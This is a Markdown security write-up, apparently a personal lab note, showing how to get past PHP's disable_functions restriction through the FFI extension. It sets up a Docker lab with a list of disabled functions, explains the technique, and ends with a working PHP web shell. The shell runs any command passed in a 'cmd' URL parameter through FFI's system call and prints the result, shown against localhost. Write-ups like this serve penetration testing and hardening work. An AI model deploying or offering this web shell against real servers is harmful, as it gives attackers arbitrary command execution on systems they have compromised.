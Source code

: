 ```yaml
---
title: PHP - Bypass Disable Functions Using FFI
tags: php disable_functions bypass ffi
---
```


# Description

Recently I faced a situation where most of php functions were disabled ... I rebuilt the environment in a docker container for more accurate debbuging

## Docker setup

### Dockerfile

```
FROM php:8.0-apache

RUN apt update
RUN apt install nano libffi-dev
RUN docker-php-ext-configure ffi --with-ffi
RUN docker-php-ext-install ffi

RUN echo "<?php phpinfo();?>" > phpinfo.php
COPY ffi_bypass.php /var/www/html/ffi_bypass.php

RUN cp /usr/local/etc/php/php.ini-production /usr/local/etc/php/php.ini
RUN sed -i "s|;ffi.enable=preload|ffi.enable=true|g" /usr/local/etc/php/php.ini
RUN sed -i "s|disable_functions =|disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen|g" /usr/local/etc/php/php.ini

RUN chown -R www-data:www-data /var/www/html/

ENTRYPOINT ["apache2-foreground"]
```

### Build

```
docker build -t phpffi .
```

### Run 

```
docker run --rm -ti -p 8081:80 phpffi
```

The docker container `80` port was exposed to `8081` on my local machine

## PHPInfo

![image](https://user-images.githubusercontent.com/84577967/175967517-1f444bfa-dda2-4a68-9858-db0a007eb157.png)

## Disable Functions List

Yeah ! You probably wondering why he used PHP at first 😆, don't complain please ...

![image](https://user-images.githubusercontent.com/84577967/175967567-28591459-8d33-4b91-b5e5-13e175e6660f.png)

What took my attention that FFI is **enable** !

![image](https://user-images.githubusercontent.com/84577967/177450983-8abfc720-d340-4d9e-a1bc-de89f6a8853c.png)

## Foreign Function Interface (FFI)

### Important note

**This extension is disabled in the default PHP installation.**

![image](https://user-images.githubusercontent.com/84577967/177450600-bb90dca4-c30c-4ca6-9970-e7e5a74d9900.png)

### Introduction

![image](https://user-images.githubusercontent.com/84577967/175815888-f097b514-c0ae-47ef-aee9-01ae58e1c99b.png)

### Bypass disable functions

The FFI extension allow us to call any `C` function, and there is nothing better than calling a command execution function such [system](https://www.tutorialspoint.com/c_standard_library/c_function_system.htm)

![image](https://user-images.githubusercontent.com/84577967/177451478-a105560b-18e3-48af-9ee5-65b67419a098.png)

We have to create a new FFI object using the `cdef` function

![image](https://user-images.githubusercontent.com/84577967/177452813-c9cbf070-cd3a-40c8-85f5-232f7c81417c.png)

After many tries I thought I wasn't able to execute commands but the problem was in printing out the result using `echo, print, ...` that will never work 😛

So I ended up with this small php code to check really if that will create a `test` file

```php
<?php 
$ffi=FFI::cdef("int system(const char *command);");
$ffi->system('echo "test" > test');
?>
```

And it worked !

![image](https://user-images.githubusercontent.com/84577967/177454143-0ac183c1-eb0e-4a25-b8bf-9ee195f5325e.png)


### Final code

The php code below will allow us to execute and print the result of any command

```php
<?php
if(isset($_GET['cmd'])){
    $cmd=$_GET['cmd'];
    $rand=rand();
    $ffi = FFI::cdef("int system(const char *command);");
    $ffi->system("{$cmd} > /dev/shm/{$rand}");
    echo file_get_contents("/dev/shm/{$rand}");
    $ffi->system("rm /dev/shm/{$rand}");
}
?>
```

And the usage is pretty simple: `http://127.0.0.1:8081/bypass.php?cmd=id`

![image](https://user-images.githubusercontent.com/84577967/177454294-dc030ac4-4c85-4dcb-916a-1649b5a93ed7.png)
